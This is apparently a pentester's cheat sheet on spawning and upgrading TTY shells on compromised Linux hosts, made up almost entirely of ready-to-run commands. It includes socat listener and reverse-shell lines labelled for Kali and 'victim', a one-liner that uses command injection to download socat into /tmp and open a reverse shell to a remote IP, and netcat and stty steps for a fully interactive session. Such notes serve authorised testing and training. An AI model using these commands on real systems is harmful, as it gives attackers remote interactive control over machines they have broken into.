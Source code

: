 # TTY Shells

### **Bash**

```bash
/bin/bash -i
echo os.system('/bin/bash')
/bin/sh -i
```

### **Python**

```python
python -c "import pty; pty.spawn('/bin/bash')"
```

### **Perl**

```perl
perl -e 'exec "/bin/bash";'
```

### Socat

**On Kali (listen)**:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**On Victim (launch)**:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If <mark style="color:green;">`socat`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> isn’t installed, there are standalone binaries that can be downloaded from this Github repo:

{% embed url="https://github.com/andrew-d/static-binaries" %}

With a command injection vuln, it’s possible to download the correct architecture <mark style="color:green;">`socat`</mark> <mark style="color:green;"></mark><mark style="color:green;"></mark> binary to a writable directory, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

### rlwrap

```bash
sudo apt install rlwrap
rlwrap -cAr nc -nvlp [PORT]
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Interactive TTY

```bash
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
# for bash
stty raw -echo
fg

# for zsh
stty raw -echo; fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
#  stty size
stty rows <num> columns <cols>
```

## Resource

{% embed url="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys#method-2-using-socat" %}
